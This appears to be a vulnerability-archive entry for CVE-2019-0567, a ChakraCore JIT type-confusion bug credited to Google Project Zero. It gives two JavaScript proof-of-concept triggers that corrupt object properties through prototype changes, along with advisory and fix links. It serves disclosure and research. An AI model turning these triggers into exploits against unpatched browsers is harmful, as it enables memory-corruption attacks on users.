 # CVE-2019-0567

- Report: Oct 2018
- Fix: Jan 2019
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function cons() {

}

function opt(o, value) {
    o.b = 1;

    new cons();

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        cons.prototype = {};

        let o = {a: 1, b: 2};
        opt(o, {});
    }

    let o = {a: 1, b: 2};

    cons.prototype = o;

    opt(o, 0x1234);

    print(o.a);
}

main();
```

```javascript
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, 0x1234);

    print(o.a);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-0567)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1702)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/788f17b0ce06ea84553b123c174d1ff7052112a0)
